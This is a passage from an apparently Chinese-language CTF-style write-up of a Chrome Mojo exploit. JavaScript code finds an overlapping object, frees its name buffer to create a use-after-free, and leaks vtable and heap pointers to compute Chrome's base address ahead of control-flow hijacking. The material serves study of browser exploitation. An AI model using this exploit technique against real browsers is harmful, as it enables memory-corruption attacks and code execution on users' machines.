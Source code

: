 ```js
    // find the evil cat and victim cat
    let evilIdx = -1;
    let evil = undefined;
    for(let i =0; i<catCount; i++){
        let name = (await catPtrArr[i].getName()).name;
        if (name != id2Str(i, stringSize)){
            evilIdx = i;
            evil = catPtrArr[i];
            break;
        }
    }

    if(evilIdx == -1) {
        console.log("[-] can't find overlap cat name")
        return;
    }
    let name = (await evil.getName()).name;
    let victimIdx = str2Id(name);
    let victim = catPtrArr[victimIdx];
    if (victimIdx<0 || victimIdx>=catCount) {
        console.log("[-] can't find overlap cat name")
        return;
    }
    console.log("[+] evil cat idx: "+evilIdx);
    console.log("[+] victim cat idx: "+victimIdx);
    console.log("[+] evil cat name: "+name);

```

然后我们释放掉`victim`的`name`字段，此时`evil`的`name`指针就成了悬空指针，再紧接着申请另一个对象（`Person`），这样就形成了`uaf`漏洞，可以通过`evil`的`name`指针泄露虚表指针以及堆指针，从而后续劫持控制流。

```js
		// change the victim cat's name, now the evil cat name pointer will be freed
    victim.setName('a'.repeat(stringSize*200));

    let ropBufferSize = 0x100;

    // create a personPtr, now the evil cat's name pointer point to the personPtr structure
    let triggerPersonPtr = (await mojoPtr.createPerson()).person;
    await triggerPersonPtr.setName('A'.repeat(ropBufferSize));

    // leak the data
    let leakData = (await evil.getName()).name;
    let personVtableAddr = getUint64(leakData, 0);
    let leakHeapAddr = getUint64(leakData, 0x18);

    let baseAddr = personVtableAddr - 0x8fc19c0n;
    let highAddr = baseAddr&BigInt(0xf00000000000)
    let lowAddr = baseAddr&BigInt(0x000000000fff)
    if((highAddr != BigInt(0x500000000000)) && lowAddr !=0 ) {
        console.log("[-] leak addr failed")
        return;
    }
    console.log("[+] chrome base addr: "+hex(baseAddr));
    console.log("[+] leak heap addr: "+hex(leakHeapAddr));
```
